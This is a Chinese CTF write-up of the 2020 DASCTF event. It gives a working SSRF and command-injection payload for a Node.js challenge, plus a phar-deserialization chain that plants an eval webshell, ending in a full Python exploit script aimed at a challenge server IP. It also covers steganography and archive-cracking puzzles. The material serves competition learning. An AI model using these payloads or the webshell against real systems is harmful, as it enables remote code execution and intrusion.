## 2020DASCTF Write-up

队伍名称：Test1024

队伍成员：

gyy，Trick，X06

队伍情况：

---





---

继续学习吧，还是太菜了

<!-- more -->

### WEB

#### Easyjs

2020网鼎杯线下半决赛web_babyJS，近乎原题

打开即为空的json


给了源码，关键web逻辑`routes\index.js`

```js
var express = require('express');
var config = require('../config');
var url=require('url');
var child_process=require('child_process');
var fs=require('fs');
var request=require('request');
var router = express.Router();


var blacklist=['127.0.0.1.xip.io','::ffff:127.0.0.1','127.0.0.1','0','localhost','0.0.0.0','[::1]','::1'];

router.get('/', function(req, res, next) {
    res.json({});
});

router.get('/debug', function(req, res, next) {
    console.log(req.ip);
    if(blacklist.indexOf(req.ip)!=-1){
        console.log('res');
	var u=req.query.url.replace(/[\"\']/ig,'');
	console.log(url.parse(u).href);
	let log=`echo  '${url.parse(u).href}'>>/tmp/log`;
	console.log(log);
	child_process.exec(log);
	res.json({data:fs.readFileSync('/tmp/log').toString()});
    }else{
        res.json({});
    }
});


router.post('/debug', function(req, res, next) {
    console.log(req.body);
    if(req.body.url !== undefined) {
        var u = req.body.url;
	var urlObject=url.parse(u);
	if(blacklist.indexOf(urlObject.hostname) == -1){
		var dest=urlObject.href;
		request(dest,(err,result,body)=>{
			res.json(body);
		})
	}
	else{
		res.json([]);
	}
	}
});

module.exports = router;
```

有个debug路径，请求会判断是不是本地回环访问，即`127.0.0.1`等，不是则返回空json。如果是本地访问就会读取get中url参数，去除单双引号用nodejs的url.parse解析，解析后的url拼接到shell命令中执行，输出`/tmp/log`再返回内容。

由此，应先POST`/debug`， 在`url`参数中绕过blacklist，让程序再GET请求自己的`/debug`路径，之后构造注入命令。

考察一个SSRF，构造payload：` {"url":"http://127.0.0.2:10300/debug?url=http://%2527@xx"} `最后闭合引号

然后考虑把flag文件复制到`/tmp/log`，利用`$IFS`

最终payload：` {"url":"http://127.0.0.2:10300/debug?url=http://%2527;%2527@xx;cp$IFS/tmp/flag$IFS/tmp/log%00"} `


---

#### Easyphp

神奇的phar反序列化

源码

```php
<?php
error_reporting(E_ALL);
$sandbox = '/var/www/html/uploads/' . md5($_SERVER['REMOTE_ADDR']);
if(!is_dir($sandbox)) {
    mkdir($sandbox);
}

include_once('template.php');

$template = array('tp1'=>'tp1.tpl','tp2'=>'tp2.tpl','tp3'=>'tp3.tpl');

if(isset($_GET['var']) && is_array($_GET['var'])) {
    extract($_GET['var'], EXTR_OVERWRITE);
} else {
    highlight_file(__file__);
    die();
}

if(isset($_GET['tp'])) {
    $tp = $_GET['tp'];
    if (array_key_exists($tp, $template) === FALSE) {
        echo "No! You only have 3 template to reader";
        die();
    }
    $content = file_get_contents($template[$tp]);
    $temp = new Template($content);
} else {
    echo "Please choice one template to reader";
}
?>
```

关键点`exract`，可见变量覆盖`template`再利用`tp`达到任意文件读取。不过不可能直接读flag的，先读了`template.php`

` ./?var[template][1]=template.php&tp=1 `

```php
//template.php
<?php
class Template{
    public $content;
    public $pattern;
    public $suffix;

    public function __construct($content){
        $this->content = $content;
        $this->pattern = "/{{([a-z]+)}}/";
        $this->suffix = ".html";
    }

    public function __destruct() {
        $this->render();
    }
    public function render() {
        while (True) {
            if(preg_match($this->pattern, $this->content, $matches)!==1)
                break;
            global ${$matches[1]};

            if(isset(${$matches[1]})) {
                $this->content = preg_replace($this->pattern, ${$matches[1]}, $this->content);
            }
            else{
                break;
            }
        }
        if(strlen($this->suffix)>5) {
            echo "error suffix";
            die();
        }
        $filename = '/var/www/html/uploads/' . md5($_SERVER['REMOTE_ADDR']) . "/" . md5($this->content) . $this->suffix;
        file_put_contents($filename, $this->content);
        echo "Your html file is in " . $filename;
    }
}
?>
```

注意到关键点有个全局变量，联想到之前的变量覆盖，这里肯定是可以利用的。

类`Template`大概意思就是传入的`content`，利用`pattern`进行正则匹配，利用全局变量中的值替换匹配到的值，最后输出以`suffix`后缀的文件。

摸索一番后确认为神奇的phar反序列化，考点为文件上传和命令执行。

利用脚本生成phar文件

```php
<?php
class Template{
    public $content;
    public $pattern;
    public $suffix;
    public function __construct(){
        $this->content = "{{gyycoming}}";
        $this->pattern = "/{{([a-z]+)}}/";
        $this->suffix = ".php";
    }
    public function __destruct() {
        $this->render();
    }
    public function render() {
        while (True) {
            if(preg_match($this->pattern, $this->content, $matches)!==1)
                break;
            global ${$matches[1]};

            if(isset(${$matches[1]})) {
                $this->content = preg_replace($this->pattern, ${$matches[1]}, $this->content);
            }
            else{
                break;
            }
        }
        if(strlen($this->suffix)>5) {
            echo "error suffix";
            die();
        }
        $filename = '/var/www/html/uploads/' . md5($_SERVER['REMOTE_ADDR']) . "/" . md5($this->content) . $this->suffix;
        file_put_contents($filename, $this->content);
        echo "Your html file is in " . $filename;
    }
}
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new Template();
$phar -> setMetadata($object);
$phar -> stopBuffering();
```

可以看到`content`为`gyycoming`，之后变量覆盖`gyycoming`为一句话木马，生成.php文件，即可成功getshell

还有更好的方法，直接`content`为一句话木马，`pattern`直接删掉，既然可以phar反序列化，就有很多姿势了。

首先用`php://input`伪协议上传phar文件。

`./tp=1&var[template][1]=php://input`，POST上传phar

然后触发phar文件，利用`phar://`伪协议

`./?var[template][1]=phar://"+<url_path>+"&tp=1&var[gyycoming]=<?php eval($_POST[gyy]);?>`



可以看到第一个是正常的文件，第二个是触发phar反序列化写入的.php文件，蚁剑连上，到根目录执行`/readflag`即可。



所以直接读是不可以的，`400`没有权限，需要执行`/readflag`。

最后附上exp

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2020/12/25 14:24
@Auth ： gyy
@Blog：http://err0r.top

"""

import requests
import os

baseurl = "http://8.129.41.25:10305/"

def phar():
    php = '''<?php
class Template{
    public $content;
    public $pattern;
    public $suffix;
    public function __construct(){
        $this->content = "{{gyycoming}}";
        $this->pattern = "/{{([a-z]+)}}/";
        $this->suffix = ".php";
    }
    public function __destruct() {
        $this->render();
    }
    public function render() {
        while (True) {
            if(preg_match($this->pattern, $this->content, $matches)!==1)
                break;
            global ${$matches[1]};

            if(isset(${$matches[1]})) {
                $this->content = preg_replace($this->pattern, ${$matches[1]}, $this->content);
            }
            else{
                break;
            }
        }
        if(strlen($this->suffix)>5) {
            echo "error suffix";
            die();
        }
        $filename = '/var/www/html/uploads/' . md5($_SERVER['REMOTE_ADDR']) . "/" . md5($this->content) . $this->suffix;
        file_put_contents($filename, $this->content);
        echo "Your html file is in " . $filename;
    }
}
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new Template();
$phar -> setMetadata($object);
$phar -> stopBuffering();
?>'''
    with open('phar.php', 'w') as f:
        f.write(php)
    print('[+] file phar.php is create')
    a = os.popen('php phar.php')
    a.close()
    if os.path.isfile("phar.phar"):
        print('[+] file phar.phar is create')
    else:
        exit("[-] create phar file wrong.")


def up_phar():
    url = baseurl+"?tp=1&var[template][1]=php://input"
    with open("phar.phar", "rb") as f:
        pharfile = f.read()
    res1 = requests.post(url, data=pharfile).content.decode('utf8')
    str = res1.split("in ")[1]
    print("upload file to ----> "+str)
    if "/var/www/html/" in str:
        upurl = baseurl + str.split("/var/www/html/")[1]
        res2 = requests.get(upurl)
        print(res2)
        if res2.status_code == 200:
            print("[+] success!")
            return str
    else:
        exit("[-] upload pharfile error.")

def phar_trigger(upurl):
    url = baseurl+"?var[template][1]=phar://"+upurl+"&tp=1&var[gyycoming]=<?php eval($_POST[gyy]);?>"
    res1 = requests.get(url).content.decode('utf8')
    print(res1)
    str = res1.split("in ")[2]
    print("shell file ----> " + str)
    if ".php" in str:
        shellurl = baseurl + str.split("/var/www/html/")[1]
        res2 = requests.get(shellurl)
        print(res2)
        if res2.status_code == 200:
            print("[+] success!")
            return shellurl
    else:
        exit("[-] trigger pharfile error.")

def shell(shellurl,payload):
    data={
        "gyy" : payload
    }
    res = requests.post(shellurl,data=data).content.decode('utf8')
    print(res)

if __name__ == "__main__":
    payload = "system('/readflag');"

    phar()
    print("********************")
    upurl = up_phar()
    print("********************")
    shellurl = phar_trigger(upurl)
    print("********************")
    shell(shellurl, payload)
```


---


### MISC

---

#### 马老师的秘籍

签到题


首先拿到一张图片，随便扫了一个，竟然是招式名称...不过既然是题目，图片肯定不止是图片...用十六进制查看，底部发现了zip标志头`50 4D 03 04`



用foremost提前或者直接拖到最后新建十六进制文件搞出来，是个压缩包



有加密，所以检查一下，发现有伪加密，直接修改加密位拖出来jpg文件，其他两个是真加密



图片很花，不过依稀能看出来东西的



所以利用Stegsolve，把这张和原图异或一下即可



`md5(NianQingRenBuJiangWuDe)`

那这串去解密真加密文件`c57988283c92f759585a0c1aebfdd743`，密码正确。

这里有人说明文攻击也行...没跑过，大概可以吧。

文本文件里一堆`左正蹬 右鞭腿 左刺拳`，第二个里面

```
左正蹬 -> .
右鞭腿 -> !
左刺拳 -> ?
```

很显然，替换。替换完后只有`.!?`，推测为Ook!加密，直接去解，得到flag




---

#### FakePic

RAR压缩包注释提示密码为1???小写字母，共四位



输出个字典用ARPA准备跑，结果提示这不是个RAR文件，则为RAR5格式，利用hashcat破解，得到密码`1cpp`

解压后一个图片一个提示

```
10132430

取最前面500位就行
```

Stegsolve分析一波无果，提示也一头雾水。最后在十六进制查看在文件末尾时发现提示



分析到这没做了，电脑有问题没装上PIL模块。

赛后参考[大师傅博客]( https://l1near.top/index.php/2020/12/27/87.html )，利用脚本跑出Alpha通道前几个点，发现



 都是2的倍数，且倍数都不大。结合前面的提示（而且提示的长度还为8）。那么就猜测提示的作用是这样的：`10132430`得这样分`1 0 1 3 2 4 3 0`，然后这8个为一轮一直循环。如果刚好轮到这个数，算出来的`pow(2,x)`和Alpha通道的值一样，那么就为1，否则就为0。

```python
from PIL import Image
pic = Image.open('flag.png')
width,height = pic.size
flag = ""
z = -1
i = [1,0,1,3,2,4,3,0]
for x in range(width):
    for y in range(height):
        if z <= 500:
            z += 1
            if pow(2, i[z % 8]) == pic.getpixel((x,y))[3]:
                flag += '1'
            else:
                flag += '0'
        else:
            print(flag)
            break
```

跑出来`0110011001101100011000010110011101011111011010010111001100111010011001100011010100111000001100100110010100111001011000100011001100110001001110010110000101100010011001010011000101100101011001000110011001100100001101110110010001100110001101010011011000110101011001100110010101100011011001100011011001100110001101100110011000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`

去二进制转字符串，得到flag




----

## 总结

还是太菜了，有些点还是比较生疏，重点学习了一波phar反序列化，继续学习。